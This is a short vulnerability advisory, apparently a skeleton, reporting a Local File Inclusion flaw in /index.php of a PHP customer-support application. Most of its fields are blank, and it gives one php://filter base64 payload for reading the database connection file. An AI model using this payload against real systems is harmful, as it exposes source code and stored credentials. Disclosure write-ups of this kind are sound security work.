 ## XXXXXXXXX

## Local File Inclusion ()

### Vendor Homepage:

```

```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```

```

### Affected Page:

```
```

A vulnerability was discovered in the page `/index.php`. An authenticated user has the capability to access and read PHP files from the operating system by exploiting a Local File Inclusion (LFI) vulnerability through the wrapper filter.

```

```

### Proof of Concept:

**Payload：**

```
php://filter/convert.base64-encode/resource=C:\xampp\htdocs\customer_support\db_connect 
```

**Burp Request：**

```

```

**Screenshot：**





